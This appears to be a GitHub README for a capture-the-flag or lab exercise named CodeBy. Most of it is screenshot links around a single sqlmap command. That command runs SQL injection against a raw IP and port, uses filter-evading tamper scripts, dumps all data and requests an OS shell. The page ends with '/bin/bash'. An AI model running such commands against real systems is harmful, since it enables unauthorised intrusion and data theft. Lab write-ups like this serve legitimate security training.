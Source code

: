 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/cc9c4810-ef5b-4986-9878-d959e54f6324)

`sqlmap -u "http://62.173.140.174:18600/?id=" --batch --level=2 --risk=3 --random-agent -v --tamper=space2comment --all --os-shell`

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c8ee09e9-ef49-4861-8d05-001133ddea0b)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/83464127-58a8-4db0-aaaf-a091255019fc)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c6218487-a3e1-4ee2-a763-5f8b114ef886)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c211f186-dc12-41e9-bd7e-f94ca6833fdd)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/487ee078-3699-461d-993a-f1b333a3b8fe)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9964bc32-87e8-4a3e-b478-1376c24c8ff0)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b19e2c6b-ba92-4b8b-acec-ece0e521e0b1)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5b78ce27-d635-4e95-85d4-13c5a164b579)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/1dbd4bcd-e092-4cce-8b48-fddf915b8cd0)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b60015b5-d6fb-404e-9fe0-bbbddb287466)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ea5169a9-7607-4fd4-a688-016bb440097e)

`/bin/bash`












